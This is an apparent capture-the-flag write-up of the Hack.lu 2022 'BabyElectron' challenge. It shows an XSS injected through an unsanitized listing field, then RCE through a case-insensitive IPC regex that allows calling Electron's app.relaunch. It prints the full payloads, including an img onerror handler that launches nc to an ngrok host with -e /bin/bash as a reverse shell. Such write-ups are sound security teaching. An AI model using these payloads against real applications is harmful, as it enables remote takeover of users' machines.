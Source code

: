 ```yaml
---
layout: writeup
title:  "BabyElectron"
source: "flu.xxx"
solves: "19/718"
date:   2022-10-29 11:10:05 +0200
event: "Hack.lu 2022 CTF"
categories: [writeup]
ctf_categories: [web, XSS, RCE]
author: "Mike L."
image: "electron.png"
---
```


## Description
So you wanted to get into Electron Pwning? Your friend found a nice app, leaked its backend source from a Github repo he found while doxing some Luxembourg Real Estate Company. Pwn away by getting RCE! If you run into problems while setting it up reach out. This is the first flagstore for babyelectron. 

There are two flags: one in /flag which you can submit here and one in /printflag which you can submit at babyelectronV2

# The challenge
The whole source code of the app, as well as the server-side code was provided.

The electon app could be used used to buy, sell and report real estate objects.
You can also report a real estate listing, which is then checked by a bot. 
The goal is to get code execution of the machine of the bot, which is visiting the reported listing.


# The solution
The solution comprised two steps: 
- First, you needed to get XSS in the electron app.
- Second, you needed to abuse the IPC function and get RCE.

## Setup
To make our lives easier, we started the electon app with: `electron . --proxy-server=127.0.0.1:8080` to be able to route the traffic of the app through burp.
Furhtermore, we enabled the developer tools by commenting out: `mainWindow.webContents.openDevTools()` in main.js

## First step - Getting XSS
In the support.js function from the `app` code, we see the following:

```
// security we learned from a bugbounty report
    listing.msg = DOMPurify.sanitize(listing.msg)

    const div = `
        <div class="card col-xs-3" style="width: 18rem;">
            <span id="REL-0-houseId" style="display: none;">${listing.houseId}</span>
            <img class="card-img-top" id="REL-0-image" src="../${listing.image}" alt="REL-img">
            <div class="card-body">
              <h5 class="card-title" id="REL-0-name">${listing.name}</h5>
              <h6 class="card-subtitle mb-2 text-muted" id="REL-0-sqm">${listing.sqm} sqm</h6>
              <p class="card-text" id="REL-0-message">${listing.message}</p>
              <input type="number" class="form-control" id="REL-0-price" placeholder="${listing.price}">
            </div>
        </div>
        <div>
            ${listing.msg}
        </div>
  `
```
listing.msg does get sanitized, however the other parameter do not.
The idea is to get script execution using `listing.message` parameter.

On the first impression its only possible to write the listing.msg parameter which gets posted with the report to get XSS.
As its gets sanitized, this is not possible.

However, when selling a real estate you can specify the `listing.message` when intercepting the message with burp.
So we altered the message parameter of to `<img src=x onerror=\"alert(1);\">`

Then, we checked if the XSS worked, by visiting the support page with out own electron app. 
Therefor we simply added a reference index.html s.t. it also had a link to the support page:

```html
<li class="nav-item">
    <a class="nav-link" href="../views/support.html">
      Support
    </a>
</li>
```
And also included links on the support.html page to navigate back to the other pages:
```html
<div>
    <a href="../views/index.html">Home</a>
    <a  href="../views/listings.html">Buy</a>
    <a  href="../views/portfolio.html">My Portfolio</a>
    <a  href="../views/support.html">Support</a>
</div>
```

We then navigated to the support page and intercepted the http request with burp and filled in the id, given when reporting the listing.
Thus, we could confirm the XSS.

## Step 2

Now we need to get RCE with the XSS.
Hacktricks has a nice atricle on how to get RCE from XSS in electon: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/xss-to-rce-electron-desktop-apps
As contextIsolation is tured on - `contextIsolation: true` in main.js, we figured, that we could give it a try via RCE via IPC.

The preload.js contained the following:

```js
const RendererApi = {
  invoke: (action, ...args)  => {
      return ipcRenderer.send("RELaction",action, args);
  },
};
```
It looks like we have a ipc method called `invoke`.
Lets check which function it allows us to execute in main.js:

```js
app.RELbuy = function(listingId){
  return
}

app.RELsell = function(houseId, price, duration){
  return
}

app.RELinfo = function(houseId){
  return
}

app.RElist = function(listingId){
  return
}

app.RELsummary = function(userId){
 return 
}

ipcMain.on("RELaction", (_e, action, args)=>{
  //if(["RELbuy", "RELsell", "RELinfo"].includes(action)){
  if(/^REL/i.test(action)){
    app[action](...args)  
  }else{
    // ?? 
  }
})
```

It looks like we can execute every method that starts with REL. However, the regex check is case insensitive.
Lets see if we can find an electon api app function whose name start with `rel` that might be useful. 
We find `relaunch` https://www.electronjs.org/de/docs/latest/api/app

After a bit of trial and error and reading the docs, we could achive RCE with this javascript function: 
`api.invoke("relaunch", {args: ["4.tcp.ngrok.io", "133573", "-e", "/bin/bash"], execPath:"nc"})`

Now we just needed to put that into our XSS script and let the bot visit it to get a reverse shell back.

We posted that to /sell:
```json
"message" : "<img src=x onerror=\'api.invoke('relaunch', {args: ['4.tcp.ngrok.io', '133573', '-e', '/bin/bash'], execPath:'nc'})\">"
```
We then got the id back, which we then submitted to the bot and got a shell back. The shell only lasted for 15 secs, so we needed to be quick to print out both flag ^^. but after some attemts we got both flags.

Big thanks to Alain who helped a lot during the challenge. :)